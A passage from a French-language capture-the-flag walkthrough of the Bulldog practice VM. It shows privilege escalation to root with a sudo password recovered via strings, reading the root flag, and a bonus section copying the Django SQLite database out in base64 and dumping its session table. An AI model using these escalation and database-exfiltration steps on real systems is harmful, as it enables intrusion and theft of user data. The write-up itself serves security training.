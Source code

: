 Nous y sommes presque ! La commande [_strings_](https://en.wikipedia.org/wiki/Strings_(Unix))
laisse apparaître _sudo su root_ et le mot de passe _SUPERultimatePASSWORDyouCANTget_.

```console
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ sudo su root
sudo su root
[sudo] password for django: SUPERultimatePASSWORDyouCANTget

root@bulldog:/home/bulldogadmin/.hiddenadmindirectory# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Il ne reste plus qu'à lire le mot final de [Nick](https://frichetten.com/), et à le remercier chaudement pour cette excellente VM !

```console
root@bulldog:/home/bulldogadmin/.hiddenadmindirectory# ls /root
ls /root
congrats.txt

root@bulldog:~# cat /root/congrats.txt
cat /root/congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

## Bonus n°1 : Exfiltration de la base de données SQLite3

```console
Command : echo $(base64 db.sqlite3)

--snip--
aGRYUm9MbUpoWTJ0bGJtUnpMazF2WkdWc1FtRmphMlZ1WkNJc0lsOWhkWFJvW
DNWelpYSmZhV1FpT2lJNEluMD0yMDE4LTAyLTIzIDIxOjU5OjUzLjI0OTI1NA==
```

```console
root@blinils:~# base64 -d bulldog.sqlite3 > db.sqlite3
root@blinils:~# sqlite3 db.sqlite3
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  auth_user_user_permissions
auth_group_permissions      django_admin_log          
auth_permission             django_content_type       
auth_user                   django_migrations         
auth_user_groups            django_session            

sqlite> .headers on 

sqlite> select * from django_session;
session_key|session_data|expire_date
7c9ks1ywspnb2mu500z63zp178eo1zrh|YjcyYTMwNzY4Mzk2MTFmMmQyYmE1MGZhMzA2MzNmYjdiODA3NGEwMDp7Il9hdXRoX3VzZXJfaGFzaCI6IjliMThhNzgyNjI4YjEzZDFhY2E4YjAwMjA3MTIwMWUxODUzNjMyMTIiLCJfYXV0aF91c2VyX2JhY2tlbmQiOiJkamFuZ28uY29udHJpYi5hdXRoLmJhY2tlbmRzLk1vZGVsQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOiI4In0=|2017-09-02 06:37:06.605011
exuboafi4l2garfjmb92z041pspfodtl|YjcyYTMwNzY4Mzk2MTFmMmQyYmE1MGZhMzA2MzNmYjdiODA3NGEwMDp7Il9hdXRoX3VzZXJfaGFzaCI6IjliMThhNzgyNjI4YjEzZDFhY2E4YjAwMjA3MTIwMWUxODUzNjMyMTIiLCJfYXV0aF91c2VyX2JhY2tlbmQiOiJkamFuZ28uY29udHJpYi5hdXRoLmJhY2tlbmRzLk1vZGVsQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOiI4In0=|2017-09-09 02:48:23.352017
```